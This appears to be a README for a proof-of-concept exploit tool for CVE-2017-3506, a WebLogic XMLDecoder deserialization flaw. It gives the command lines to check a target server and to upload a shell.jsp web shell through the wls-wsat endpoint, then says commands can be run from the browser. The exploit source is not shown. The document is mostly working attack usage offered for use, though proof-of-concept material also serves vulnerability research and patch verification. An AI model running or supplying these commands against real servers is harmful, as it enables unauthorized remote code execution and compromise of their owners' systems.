

#### What is this?

This is a poc of CVE-2017-3506(Weblogic XMLDecoder Serialization)

#### How to use it?

###### check vul

```
java -jar WebLogic-XMLDecoder.jar -u http://192.168.174.144:7001
```


##### GetShell

~~~
java -jar WebLogic-XMLDecoder.jar -s http://192.168.174.144:7001 /wls-wsat/CoordinatorPortType11 shell.jsp
~~~


Then you can execute the command through the browser:


